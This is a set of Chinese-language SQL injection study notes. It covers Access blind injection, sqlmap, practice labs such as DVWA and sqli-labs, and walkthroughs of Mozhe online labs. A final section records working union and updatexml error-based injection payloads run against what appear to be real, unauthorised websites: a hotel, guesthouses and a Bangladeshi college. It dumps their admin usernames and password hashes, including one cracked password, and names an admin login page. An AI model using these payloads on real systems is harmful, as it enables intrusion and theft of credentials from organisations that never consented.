猜测admin列的第一个数据的长度，如果大于5查询不出数据，大于4正常，说明admin列的第一个数据长度是5

and (select top 1 len(admin)from admin)>5
 
猜测admin列的第一行数据的第一个字符的ascii码值，如果大于97查询不出数据，大于96正常，说明admin列的第一行数据的第一个字符的ascii值是97

and (select top 1 asc(mid(admin,1,1))from admin)>97 

第一行数据的第二个字符

and (select top 1 asc(mid(admin,2,1))from admin)>97 
 
从第二行开始，查询数据就得用另外的语句了,因为这里的top只能显示查询前几条数据，所以我们得用联合查询，先查询前两条，然后倒序，然后在找出第一条，这就是第二条数据。

查询第二行admin列的长度

and (select top 1 len(admin)  from ( select top 2 * from information order by id)  order by id desc)>55
下面是查询第2条数据的第3个字符

and (select top 1 asc(mid(admin,3,1))  from ( select top 2 * from information order by id)  order by id desc)>55

查询第三条数据的4个字符
and (select top 1 asc(mid(admin,4,1))  from ( select top 3 * from information order by id)  order by id desc)>55
```

```
注：在access中，中文也可以用asc函数来表示，例如：asc(mid("中国",1)) 表示 中 字的ascii值，可以用 chr 来逆向得出值
```

```
asc("中") = -10544

chr(-10544) = 中
```

##### 5)Sqlmap注入Access数据库

```
爆出access数据库存在的表，只能利用枚举的方式爆破。
```

```
sqlmap -u "xxx"  --tables
```

```
第一步问我们是否使用公共的库去爆破，我们选择：Y；

第二步选择默认的库文件：1 

第三步选择线程数：10
```



```
可以看出爆出了两个数据表：admin 、 specialty
```

```
爆出admin数据库中的列名
```

```
sqlmap -u "xxx" -T admin --columns
```

```
意思和上一步也是一样的。
```



```
爆出admin表下username列的所有数据
```

```
sqlmap -u "xxx" -T admin -C username --dump-all
```


### 九、SQL注入靶场解析笔记

#### 1、SQL注入的一些相关靶场简介

##### 1）DVWA

​	DVWA(Damn Vulnerable Web Application)一个用来进行安全脆弱性鉴定的PHP/MySQL Web 应用，旨在为安全专业人员测试自己的专业技能和工具提供合法的环境，帮助web开发者更好的理解web应用安全防范的过程。
DVWA 一共包含了十个攻击模块，分别是：Brute Force（暴力（破解））、Command Injection（命令行注入）、CSRF（跨站请求伪造）、- File Inclusion（文件包含）、File Upload（文件上传）、Insecure CAPTCHA （不安全的验证码）、SQL Injection（SQL注入）、SQL Injection（Blind）（SQL盲注）、XSS（Reflected）（反射型跨站脚本）、XSS（Stored）（存储型跨站脚本）。包含了 OWASP TOP10 的所有攻击漏洞的练习环境，一站式解决所有 Web 渗透的学习环境。
​	另外，DVWA 还可以手动调整靶机源码的安全级别，分别为 Low，Medium，High，Impossible，级别越高，安全防护越严格，渗透难度越大。
​	一般 Low 级别基本没有做防护或者只是最简单的防护，很容易就能够渗透成功；而 Medium 会使用到一些非常粗糙的防护，需要使用者懂得如何去绕过防护措施；High 级别的防护则会大大提高防护级别，一般 High 级别的防护需要经验非常丰富才能成功渗透；
​	最后 Impossible 基本是不可能渗透成功的，所以 Impossible 的源码一般可以被参考作为生产环境 Web 防护的最佳手段。

```
下载地址：

官网地址：https://dvwa.co.uk/
GitHub下载地址：https://github.com/digininja/DVWA
网盘下载：https://pan.baidu.com/s/1W000yYSuZGTPAxUKmWuC4g    npui
CSDN下载地址：https://download.csdn.net/download/weixin_42248871/16297403
```



##### 2）Sqli-Labs

SQLi-Labs 是一个专业的SQL注入练习平台
下面的测试场景都支持GET和POST两种注入方式：
1.报错注入(联合查询)
1)字符型
2)数字型
2.报错注入(基于二次注入)
3.盲注
1)基于布尔值
2)基于时间
4.UPDATE型注入练习
5.INSERT型注入练

6. HTTP头部注入
   1)基于Referer
   2)基于UserAgent
   3)基于Cookie
7. 二次排序注入练习
8. …

  ```
下载地址：

GitHub：https://github.com/Audi-1/sqli-labs
网盘：https://pan.baidu.com/s/1D90GgVpywF4uBbR2AP2SxA   pc6b
  ```



##### 3）Pikachu

pikachu是一个漏洞练习平台。其中包含了常见的web安全漏洞

Burt Force(暴力**漏洞)
XSS(跨站脚本漏洞)
CSRF(跨站请求伪造)
SQL-Inject(SQL注入漏洞)
RCE(远程命令/代码执行)
Files Inclusion(文件包含漏洞)
Unsafe file downloads(不安全的文件下载)
Unsafe file uploads(不安全的文件上传)
Over Permisson(越权漏洞)
…/…/…/(目录遍历)
I can see your ABC(敏感信息泄露)
PHP反序列化漏洞
XXE(XML External Entity attack)
不安全的URL重定向

```
下载地址：

GitHub地址：https://github.com/zhuifengshaonianhanlu/pikachu
CSDN:https://download.csdn.net/download/weixin_42248871/16297633
网盘地址：https://pan.baidu.com/s/1cvJzj6vXFQqIZVNNAQrxrw    riv5
```




#### 2、有关靶场及在线靶场实操的笔记注解

##### 1>DVWA靶场


###### 1）**模块：SQL Injection(回显注入-字符型)**——手动注入


DVWA靶机low安全等级的sql注入(手动注入)作业报告 2023-6-10


```
数据库名>>数据表名>>数据列名>>数据信息

注：16进制转换网站：https://www.sojson.com/md5/

    Md5解密网站：https://www.cmd5.com/
    
1>提交1

select 列名 from 表名 where id=1  int 

select 列名 from 表名 where id=’1’ char
      
2>假设是int类型

提交 1 and 1=1

select 列名 from 表名 where id=1 and 1=1 真的

提交 1 and 1=2

select 列名 from 表名 where id=1 and 1=2 假的

判断两个结果，如果两个结果显示的是一样的，证明不是int类型的SQL注入或者不存在漏洞

譬如以下这种情况：（则可以判断不是int类型）
```






```
3>假设是char类型

提交 1' and 1=1 #

select 列名 from 表名 where id='1' and 1=1 #'  //#是注释符

提交 1' and 1=2 #

select 列名 from 表名 where id='1' and 1=2 #'  //#是注释符

判断两个结果，如果两个结果显示的是一样的，证明不是char类型的SQL注入或者不存在漏洞。如果显示的结果不一样，那说明是char类型的SQL注入。

譬如以下这种情况：（则可以判断是char类型）
```






```
3>判断完SQL注入类型后，要利用漏洞

①判断数据表中的列数 通过order by

1' order by n #  n为正整数  如果正常显示证明有这些列数，如果不正常显示证明没有这些列数
例如：
```






```
则说明数据表中的列数有两列

②联合查询 union select 

1' and 1=2 union select 1,2 #                   
```



```
③查询数据库的名字

1' and 1=2 union select 1,database() # 
```





```
可知数据库的名字为dvwa

④查询数据库中，数据表的名字

1' and 1=2 union select 1,table_name from information_schema.tables where table_schema='dvwa' #
注：Illegal mix of collations for operation 'UNION'

如果出现了这个错误，则要加hex()，详见下

1' and 1=2 union select 1,hex(table_name) from information_schema.tables where table_schema='dvwa' #
```


```
通过16进制转换后添加可得上图所示

（如果获得的是16进制的数据表名，要通过转换将16进制转成正常的数据表名，guestbook 数据表1的名字，users 数据表2的名字）
```


```
⑤查询数据表中，数据列的名字

1' and 1=2 union select 1,hex(column_name) from information_schema.columns where table_name='users' #
```


```
通过16进制转换后添加可得上图所示

⑥查询数据列中的数据信息

1' and 1=2 union select 1,concat(user,'---',password) from users #
```


```
通过Md5解密后添加可得上图所示
```


###### 2）**模块：SQL Injection(回显注入-字符型)**——自动注入


DVWA靶机low安全等级的sql注入（用sqlmap完成）作业报告  2023-6-10


**一、前置准备**

1、安装Python3.7.2,自定义安装,选择非中文的目录（我的选择是在D盘新建Python3文件夹，由于我的电脑无法自定义安装，所以我选择将安装后的文件剪切到我新建的Python3文件夹中，此时的Python3.7.2文件地址为D:\Python3）


2、修改环境变量，此电脑->属性->高级系统设置->环境变量->系统变量->Path->编辑->添加Python3.7.2的路径（我的路径为D:\Python3）


3、打开cmd测试，如出现下图所示，则配置成功


4、同理，下载sqlmap（我是下载到D盘的sqlmap文件夹里）


5、直接在sqlmap路径栏输入cmd，输入python sqlmap.py,如出现下图2所示，则运行成功


5、同理，下载burpsuite（我是下载到D盘的burpsuite文件夹里）


**二、操作步骤**

1、在burpsuite的文件夹内（也就是在该路径下），打开burpsuitecommunity.exe

点击Proxy->Options->127.0.0.1：8080->Edit->Bind to port改成8081


2、打开phpstudy，并启动Apache和MySQL，打开Firefox，输入（IPv4 地址）/ DVWA-master, 访问到靶机环境，来到登录界面:默认登录用户名: admin 默认登录密码: password，修改靶机的安全等级为low，再点击SQL Injection->User ID输入1并提交

3、打开Firefox的设置，修改代理


4、返回SQL Injection，再次在User ID输入1并提交，这时在burpsuite中的intercept中就有了响应


点击Action->Save item(保存在桌面，命名为6_3.txt)


5、重复（一、前置操作）第五步操作，直接在sqlmap路径栏输入cmd，再输入python sqlmap. py –r “C:Users\Lin\Desktop\6_3.txt(此为第4步保存的6_3.txt的保存路径)” --current-db//获取当前网站所对应的数据库名，在我的cmd中测试如下图所示


注：如果没有出现新的盘符符号就一直按回车，例如我的sqlmap存在D盘，那么我新的盘符符号为


6、出现新的盘符符号后，再输入python sqlmap. py –r “C:Users\Lin\Desktop\6_3.txt(此为第4步保存的6_3.txt的保存路径)” -Ddwa --tables//获取dvwa数据库中的数据表，在我的cmd中测试如下图所示


Python sqlmap py-r”C:Users\Lin\Desktop\6.3txt(此为第4步保存的6_3.txt的保存路径)’’-Ddwa—tables//获取dvwa数据库中的数据表，在我的cmd中测试如下图

7、出现新的盘符符号后，再输入python sqlmap. py –r “C:Users\Lin\Desktop\6_3.txt(此为第4步保存的6_3.txt的保存路径)” -D dvwa -T users --columns //获取数据库里面的某张数据表的列名


8、出现新的盘符符号后，再输入python sqlmap. py –r “C:Users\Lin\Desktop\6_3.txt(此为第4步保存的6_3.txt的保存路径)” -Ddwa -T users -C user, password --dump //获取user和password这两列的数据信息


此时我们就获取了Ddwa这个网站中其他用户的账号和密码


**三、课堂笔记**


##### 2>SQL手工注入漏洞测试(Sql Server数据库)【墨者学院 https://www.mozhe.cn/】

**网址：**

```
https://www.mozhe.cn/bug/detail/SXlYMWZhSm15QzM1OGpyV21BR1p2QT09bW96aGUmozhe
```

**网页名为：**

```
XWAY科技管理系统V3.0
```

**目标：**

```
获得该系统管理员的账号密码
```

**首先对SQL server进行回顾**

```
sysobjects:存放了所有的表信息，类似于tables，name字段；xtype：存放表类型，u为用户创建的表，x为系统创建的表。

但是通常都是查询u，人为创建的表里面的信息才是我们想要的
x为系统创建的表，里面的信息不是我们想要的，没什么价值

syscolumns:记录数据库所有字段信息。name字段。他的id的值和sysobjects中的id是一一对应的。

db_name():返回当前数据库名称。类似于database().

char():将ascii码转化为对应的字符。

ascii():将字符转化为对应的ascii.

substring():截取字符串。

user:当前用户模式
```

进入页面发现除了账号密码之外好像没有什么可以点的，但是在账号密码的下方有一个一直滚动的通告，通告信息一般都是从数据库调取的，所以我们可以**从这则通告入手**

**通告网址：**

```
http://219.153.49.228:47702/new_list.asp?id=2
```

**从asp?id=2中就可以大概判断出这是SQL server类型的数据库**

###### 1、判断字符类型

```
http://219.153.49.228:47702/new_list.asp?id=2/2 --+
```

页面发生了跳转变化，说明这是**数字型**

###### 2、判断字段长度并联合查询

```
http://219.153.49.228:47702/new_list.asp?id=2 order by 4 --+ 可以

http://219.153.49.228:47702/new_list.asp?id=2 order by 5 --+ 报错

如果是MySQL的话则可以判断是有4个字段，此时我们来测试一下 

http://219.153.49.228:47702/new_list.asp?id=2 order by 3 --+ 也同样报错

这是因为SQL server自身的一个编码问题，让这些字段有些是数字型有些是字符型

所以得要进行猜测，order by n 让n的数字更大一些如果还正常的话就很有可能是字段长度
（n越大又正常的就有较大的可能性是这样的一个字段数量）

这里的联合查询就不能用union select，要用union all select,因为SQL sever的编码比较严格

（事实上MySQL也是要用union all select，不过由于MySQL对编码并没有这么严格再加上输入union select省事，所以我们MySQL才经常使用union select而不是union all select）

由于这些字段有些是数字型有些是字符型

之前有提到过使用联合查询的时候前语句字段是什么类型的后语句字段也要什么类型，要一一对应

由于最开始判断order by 2正常，order by 3出错,所以假使我们以为字段就只有两个长度,先把后语句的两个字段占下来

http://219.153.49.228:47702/new_list.asp?id=2 union all select null,null --+

这里的null什么类型都不是，既不是数字型又不是字符型，就可以完美的和前语句匹配上，让整个语句不会报错

但是此时输入后却发现，页面依旧报错了，所以我们能得到的一个信息就是不止有两个字段，最开始的判断错误

所以我们就往上加，到第4个字段可以到第5个字段又不行，所以我们再猜测，它是有4个字段的

http://219.153.49.228:47702/new_list.asp?id=2 union all select null,null,null.null --+

现在发现页面可以正常回显，这说明我们判断有4个字段是真的，所以判断字段的顺序就是先用order by先大致确定出可能的几个范围，然后再用联合查询一一尝试

现在页面回显的还是前语句的信息，由于我们所需要的是后语句的信息，所以就需要让id=-2，令前语句为假，后语句为真页面才能返回出后语句的内容

http://219.153.49.228:47702/new_list.asp?id=-2 union all select null,null,null.null --+

但是此时发现页面什么信息都没有回显，这时我们不要慌，因为我们后语句写的都是null，而不是与字段类型一一匹配的数字，所以此时我们就需要将后语句的null，一个一个用数字，有顺序的进行字符类型尝试，和替换

就譬如把第一个null换成1，再把构造好的payload输入到网址没有报错就证明第一个字段判断为数字型型是正确的，把第三个null换成'3',再把构造好的payload输入到网址没有报错就证明第三个字段判断是字符型是正确的，以此类推进行推测判断

最后进行一一测试后可以判断，第一、二、四个字段是数字型，第三个字段是字符型

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,2,'3',4 --+

此时网页的回显为2和3，也就是只有第二个字段和第三个字段可以回显给我们看的，我们就可以针对这两个字段动手动脚了

这里，我们选择第二个字段动手，把命令写在2这个字段上
```

###### 3、查询数据库名

```
http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,db_name(),'3',4 --+
```

查询到数据库名为：**mozhe_db_v2**

###### 4、查询用户模式

```
http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,user,'3',4 --+
```

查询到的用户模式为：**dbo**

###### 5、查询数据表名

```
格式：

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,name,'3',4 from mozhe_db_v2(数据库名).dbo(用户模式).sysobjects where xtype='u'(如果网页过滤掉单引号的用就用十六进制转换u，写xtype=0x75） --+

输入：http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,name,'3',4 from mozhe_db_v2.dbo.sysobjects where xtype=0x75 --+

如果没有查询用户模式，没有写dbo，也可以把它删了，但是旁边的两个点 '..' 不能删

就譬如：

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,name,'3',4 from mozhe_db_v2..sysobjects where xtype=0x75 --+

sysobjects：存放了所有的表信息

sysobjects这张表里面有个name字段，类似于mysql里面的table_name字段，所以查询表就要写name

xtype：存放表类型，u为用户创建的表，x为系统创建的表。

就可以查询出其中的一张表为：manage

用 and name not in (' ',' ',...) 这个语句排除已经查询过的数据表就可以知道下一张表的名字，从而达到显示下一张表的效果

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,name,'3',4 from mozhe_db_v2..sysobjects where xtype=0x75 and name not in ('manage') --+  

下一张表名为：announcement

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,name,'3',4 from mozhe_db_v2..sysobjects where xtype=0x75 and name not in ('manage','announcement') --+  

发现页面并没有回显出新的数据表名，就说明数据表一共就只有：manage,announcement 这两张表

从表的名字来看很明显，manage这张表更有可能有我们需要的账号密码的信息
```

###### 6、查询数据列名

```
syscolumns:记录数据库所有字段信息。name字段。他的id的值和sysobjects中的id是一一对应的。

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,name,'3',4 from mozhe_db_v2..syscolumns where id=(select id from mozhe_db_v2..sysobjects where name='manage') --+

就可以查询出manage这张表里面的第一个数据列名为：id

和查询数据表名一样，接着我们查询下一个数据列名

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,name,'3',4 from mozhe_db_v2..syscolumns where id=(select id from mozhe_db_v2..sysobjects where name='manage') and name not in ('id') --+

第二个数据列名为：username

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,name,'3',4 from mozhe_db_v2..syscolumns where id=(select id from mozhe_db_v2..sysobjects where name='manage') and name not in ('id','username') --+

第三个数据列名为：password

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,name,'3',4 from mozhe_db_v2..syscolumns where id=(select id from mozhe_db_v2..sysobjects where name='manage') and name not in ('id','username','password') --+

发现页面并没有回显出新的数据列名，就说明数据列一共就只有：id,username,password 这三个数据列

此时我们发现我们所需要的账号密码也许就在username和password这两个数据列中了
```

###### 7、查询数据信息

```
http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,username,password,4 from manage --+

就可以查询出第一个数据信息为：  admin_mz     72e1bfc3f01b7583    也就是第一个账号密码

接着查询下一个数据信息

http://219.153.49.228:47702/new_list.asp?id=-2 union all select 1,username,password,4 from manage where username not in ('admin_mz') --+

发现页面并没有回显出新的数据信息，就说明这两个数据列中一共就只有：admin_mz,72e1bfc3f01b7583这一个账号密码

密码72e1bfc3f01b7583通过CMD5网址解密后为97285101

所以该科技管理系统的账号为admin_mz，密码为97285101

返回http://219.153.49.228:47702后输入账号密码成功登录

拿到KEY：mozhec464f9b60602baa59e64815513c 
```


##### 3>SQL手工注入漏洞测试(Oracle数据库)【墨者学院 https://www.mozhe.cn/】

**网址：**

```
https://www.mozhe.cn/bug/detail/M2dRRXJqN3RqWnhvTGRTK1JJdjk5dz09bW96aGUmozhe
```

**网页名为：**

```
XWAY科技管理系统V3.0
```

**目标：**

```
获得该系统管理员的账号密码
```

**首先对Oracle进行回顾**

```
dual:oracle系统表 

可以判断一下这个表是否存在，如果存在就是一个Oracle数据库

all_tables表:存放了oracle里面所有的表信息。

table_name字段：下面存放了其他数据库的表信息。

all_tab_columns表:存放了oralce里面所有数据库的字段信息。

column_name字段：下面存放了具体的字段信息。

rownum=1:类似于mysql中的limit 0,1，一次只能显示一行信息。
```

进入页面发现除了账号密码之外好像没有什么可以点的，但是在账号密码的下方有一个一直滚动的通告，通告信息一般都是从数据库调取的，所以我们可以**从这则通告入手**

**通告网址：**

```
http://124.70.22.208:41510/new_list.php?id=1
```

###### 1、**判断字符类型**

```
http://124.70.22.208:41510/new_list.php?id=1 and 1=1 --+

http://124.70.22.208:41510/new_list.php?id=1 and 1=2 --+

看页面回显，回显不一样则是数字型，一样则是char类型

输入完两句payload后发现页面回显是不一样的，所以可以判断是数字型
```

###### **2、判断字段长度并联合查询**

```
http://124.70.22.208:41510/new_list.php?id=1 order by 2 正常

http://124.70.22.208:41510/new_list.php?id=1 order by 3 报错

所以可以判断是有2个字段长度

Oracle这里的联合查询要把后语句的字段都当成字符型来写,而且必须要from dual(Oracle的系统表)

http://124.70.22.208:41510/new_list.php?id=1 union select '1','2' from dual --+

如果这条查询语句页面能有回显的话就可以确定这是个Oracle类型的数据库了

此时页面回显为1、2

我们选择1来进行操作

在Oracle这里查询数据库名是没有意义的，因为all_tables这张表中没有存放所属数据库名的字段，没法通过数据库名去筛选出我们想要的所对应的表信息

所以Oracle可以直接略过查找数据库名，直接找表
```

###### 3、查询数据表

```
http://124.70.22.208:41510/new_list.php?id=1 union select table_name,'2' from all_tables where rownum=1 --+

rownum是用来限制显示信息的，因为页面一次无法显示出所有信息

此时，我们查询到第一个数据表名为TYPE_MISC$

如果我们要查询下一条信息的话就需要在后面跟着 and table_name not in (' ',' ',...)这个语句

http://124.70.22.208:41510/new_list.php?id=1 union select table_name,'2' from all_tables where rownum=1 and table_name not in ('TYPE_MISC$') --+

查询出第二个表信息为ICOL$

但是此时要注意我们查询的是all_tables这张表，记录的是Oracle里面所有的表信息，所以信息是巨量的

此时我们就需要换种方式，用 and table_name  like '%user%'这个语句，模糊搜索查询关键字来操作（存放账号密码的表名关键字有可能没有 ' user ' ，是 ' manage ' 我们都可以试一下）

这个就只能靠猜，要是运气比较差，人家把存放账号密码的数据表名弄得奇奇怪怪，我们有可能就真的注入不了

http://124.70.22.208:41510/new_list.php?id=1 union select table_name,'2' from all_tables where rownum=1 and table_name like '%user%' --+

可以发现页面回显了个sns_users

这张表有可能就存放着我们想要的账号密码的信息

如果我们想再查找除了sns_users这张表以外的其他有关user关键字的表信息怎么办呢？

我们就可以继续跟 and table_name not in (' ')

http://124.70.22.208:41510/new_list.php?id=1 union select table_name,'2' from all_tables where rownum=1 and table_name like '%user%' and table_name not in ('sns_users') --+

可以发现页面没有再显出其他有关user关键字的表名

我们再尝试尝试用manage关键字模糊搜索试试

http://124.70.22.208:41510/new_list.php?id=1 union select table_name,'2' from all_tables where rownum=1 and table_name like '%manage%' --+

可以发现页面依旧没有返回其他数据表名的信息

所以我们可以大概率猜测账号密码就存放在最开始搜索的sns_users这张表里
```

###### 4、查询数据列名

```
http://124.70.22.208:41510/new_list.php?id=1 union select column_name,'2' from all_tab_columns where rownum=1 and table_name='sns_users' --+

查询出第一个数据列名为 USER_NAME

继续查询下一个数据列名

我们就可以继续跟 and column_name not in (' ')

http://124.70.22.208:41510/new_list.php?id=1 union select column_name,'2' from all_tab_columns where rownum=1 and table_name='sns_users' and column_name not in ('USER_NAME') --+

查询出第二个数据列名为 USER_PWD

继续查询下一个数据列名

http://124.70.22.208:41510/new_list.php?id=1 union select column_name,'2' from all_tab_columns where rownum=1 and table_name='sns_users' and column_name not in ('USER_NAME','USER_PWD') --+

查询出第三个数据列名为 STATUS

http://124.70.22.208:41510/new_list.php?id=1 union select column_name,'2' from all_tab_columns where rownum=1 and table_name='sns_users' and column_name not in ('USER_NAME','USER_PWD','STATUS') --+

此时页面没有再回显出其他的数据列信息

所以sns_users这张表里面存在的数据列名有：USER_NAME,USER_PWD,STATUS 三个数据列名

此时我们发现USER_NAME,USER_PWD这两个数据列大概率就是我们想要的账号密码信息的两个数据列名
```

###### 5、查询数据信息

```
http://124.70.22.208:41510/new_list.php?id=1 union select USER_NAME,USER_PWD from "sns_users" --+ 

注意最后的数据表名要加上引号，这也是跟MySQL不一样的地方，还有这里不能使用group_concat( )语句，都放在1这个地方查询账号密码，因为原本回显的地方就有两处1和2，所以把要查询的这两个数据列分别放在两个位置上即可

查询到第一个数据信息也就是账号密码为 hu 1c63129ae9db9g20asdua94d3e00495

继续查询下一个数据信息

继续跟上 where USER_NAME not in (' ',' ',...) 这个语句

http://124.70.22.208:41510/new_list.php?id=1 union select USER_NAME,USER_PWD from "sns_users" where USER_NAME not in ('hu') --+ 

查询到第二个数据信息也就是账号密码为 mozhe 6b567d8dbb1f534ca99e6ce028f1198d

继续查询下一个数据信息

http://124.70.22.208:41510/new_list.php?id=1 union select USER_NAME,USER_PWD from "sns_users" where USER_NAME not in ('hu','mozhe') --+ 

查询到第三个数据信息也就是账号密码为 zhong 1c63129ae9asc60asdua94d3e00495

继续查询下一个数据信息

http://124.70.22.208:41510/new_list.php?id=1 union select USER_NAME,USER_PWD from "sns_users" where USER_NAME not in ('hu','mozhe','zhong') --+ 

此时页面没有再回显出其他的数据信息

综上所述，账号密码一共有三个(密码经过cmd5网址解密)：

hu 1c63129ae9db9g20asdua94d3e00495 未能成功解密

mozhe 6b567d8dbb1f534ca99e6ce028f1198d(391088)

zhong 1c63129ae9asc60asdua94d3e00495 未能成功解密

所以该科技管理系统的账号为mozhe，密码为391088

返回http://124.70.22.208:41510/后输入账号密码成功登录

拿到KEY：mozhefbbbee2e50e0cb6dff75d5bbcd9
```


### 十、SQL注入渗透实操笔记

**(注：此部分都是基于靶场或者实践的认知，并无系统的梳理)**


##### 1>embryohote酒店(报错注入-数字型)

**网址：**

```
https://www.embryohotel.com/
```

###### 1、寻找注入点

```
https://www.embryohotel.com/room-detail.php?id=1
```


###### 2、判断存在什么SQL漏洞

```
https://www.embryohotel.com/room-detail.php?id=1'
```


有数据库报错回显推断存在报错注入漏洞，并且可以判断没有""

再测试一下是否存在''

```
https://www.embryohotel.com/room-detail.php?id=1"
```


还是报错，证明不存在任何的引号

###### 3、提取数据库名

```
https://www.embryohotel.com/room-detail.php?id=1 or (updatexml(1,concat(0x7e,(select database()),0x7e),1))
```


从中可知数据库名为**cp227754_embryohotel_db**

###### 4、提取数据表名

```
https://www.embryohotel.com/room-detail.php?id=1 or (updatexml(1,concat(0x7e,(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),1,30)),0x7e),1))
```

先测试一下30这个字符串长度是否可以


有显示两个“~”，说明是可以的

接着按照这个顺序【1，30】【31，30】【61，30】【91，30】【121，30】【151，30】这样查询更换直到输出全部的数据表名

测试出到【91，30】就结束了

从中可知数据表名为**admin,contact,image,local_area,news,room,room_image,room_option,room_option_reletive,slideshow,slideshow_mobile**

###### 5、提取数据列名

```
https://www.embryohotel.com/room-detail.php?id=1 or  (updatexml(1,concat(0x7e,(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x61646d696e),1,30)),0x7e),1))
```

**0x61646d696e：是admin的十六进制转换**

一样按照数据表名那样一直顺序输入到【31，30】可得完整的数据列名

**id,username,password,last_insert,last_update,permission**

###### 6、 提取数据信息

```
https://www.embryohotel.com/room-detail.php?id=1 or  (updatexml(1,concat(0x7e,(substr((select group_concat(username,'---',password) from admin),1,30)),0x7e),1))
```

username,password是数据表里面的数据列中所提到的

可以直接填入查询的数据表名

查询到【91，30】结束

 

**admin---e742c63f03ab602f2b38433ffc28b5145ba1332d**

**ARMERX---8988c8cb582506f93b59b794af7212cb5406dfcf**

 

这些密码都是强密码，MD5解译不出来！！！【哭~】

###### **7、后台登录网站**

```
https://www.embryohotel.com/admin/
```


##### 2>台湾夜墅(报错注入-字符型)

**网址：**

```
https://yeshu1699.com/
```

###### 1、寻找注入点

```
https://yeshu1699.com/news.php?id=236
```


###### 2、判断存在什么SQL漏洞

```
https://yeshu1699.com/news.php?id=236'
```


可以正常显示，说明存在''

###### 3、提取数据库名

```
https://yeshu1699.com/news.php?id=236' or (updatexml(1,concat(0x7e,(select database()),0x7e),1)) or '
```


从中可知数据库名为**yilanho1_allbnb**

###### 4、提取数据表名

```
https://yeshu1699.com/news.php?id=236' or (updatexml(1,concat(0x7e,(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),1,30)),0x7e),1)) or '
```

先测试一下30这个字符串长度是否可以


有显示两个“~”，说明是可以的

接着按照这个顺序【1，30】【31，30】【61，30】【91，30】【121，30】【151，30】这样查询更换直到输出全部的数据表名

测试出到【61，30】就结束了

从中可知数据表名为

**uni_albumlist,uni_albumphoto,uni_bbs,uni_news,uni_room,uni_roomqty,uni_setting**

###### 5、提取数据列名

```
https://yeshu1699.com/news.php?id=236' or  (updatexml(1,concat(0x7e,(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x756e695f616c62756d6c697374),1,30)),0x7e),1)) or '
```

0x756e695f616c62756d6c697374：是uni_albumlist的十六进制转换

一样按照数据表名那样一直顺序输入到【61，30】可得完整的数据列名

**uid,tab_name,sub,th_title,th_detail,th_remark1,odr,status,upddate,date**

###### 6、提取数据信息

```
https://yeshu1699.com/news.php?id=236' or  (updatexml(1,concat(0x7e,(substr((select group_concat(tab_name,'---',sub) from uni_albumlist),1,30)),0x7e),1)) or '
```


**OK，不是这个表，这个网站太鸡贼了，查不出来账号密码，润了润了！**


##### 3>JALAL UDDIN DEGREE COLLEGE(回显注入-字符型)

**网址：**

```
https://www.juc.edu.bd/
```

初步判断可以使用回显注入

###### 1、判断类型

```
https://www.juc.edu.bd/page.php?id=2/2 
```

除于自己，如果跳转页面变化了就是int，没跳转就是char

如果是int类型则会输出1，页面返回到id=1的页面，如果是char类型则不会返回

###### 2、判断字段数量

```
https://www.juc.edu.bd/page.php?id=2' order by 13 --+

https://www.juc.edu.bd/page.php?id=-2' union select 1,2,3,4,5,6,7,8,9,10,11,12,13 --+
```

4 是有回显的

###### 3、查询数据库名

```
https://www.juc.edu.bd/page.php?id=-2' union select 1,2,3,database(),5,6,7,8,9,10,11,12,13 --+
```

**exploreeims_jucedu_dsadf** 

###### 4、查询数据表名

```
https://www.juc.edu.bd/page.php?id=-2' union select 1,2,3,group_concat(table_name),5,6,7,8,9,10,11,12,13 from information_schema.tables where table_schema='exploreeims_jucedu_dsadf' --+
```

**admin,tbl_admin,library,contact,page,site,students,scroller,videos,photos,menu,slider,photo_album,students_attendance,external_link,teacher_staff_attendance,teacher_staff** 

###### 5、查询数据列名

```
https://www.juc.edu.bd/page.php?id=-2' union select 1,2,3,group_concat(column_name),5,6,7,8,9,10,11,12,13 from information_schema.columns where table_name='admin' --+
```

**id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,address,operator,phone,web,status,photos,email,userid,password,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status,id,fullname,email,password,photos,status** 

###### 6、查询数据信息

```
https://www.juc.edu.bd/page.php?id=-2' union select 1,2,3,concat(fullname,'---',password),5,6,7,8,9,10,11,12,13 from admin --+ 
```

**Webmaster---004d5ffee9ade56003311e3a267ff3e8(5154y)**

找不到该账号密码的后台登录网站


##### 4>農妹子民宿(报错注入-字符型)

**网址：**

```
https://nong.bnbhl.net/
```

有数据库报错信息，初步判断可以使用报错注入

判断该网站的url有带单引号

###### 1、查询数据库名

```
https://nong.bnbhl.net/news.php?id=561' or (updatexml(1,concat(0x7e,(select database()),0x7e),1)) or '
```

**bnbhlnet_bnbhlnet**

###### 2、查询数据表名

```
https://nong.bnbhl.net/news.php?id=561' or (updatexml(1,concat(0x7e,(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),1,30)),0x7e),1)) or '
```

**uni_albumlist,uni_albumphoto,uni_bbs,uni_news,uni_room,uni_roomqty,uni_setting**

###### 3、查询数据列名

```
https://nong.bnbhl.net/news.php?id=561' or  (updatexml(1,concat(0x7e,(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x756e695f616c62756d6c697374),1,30)),0x7e),1)) or '
```

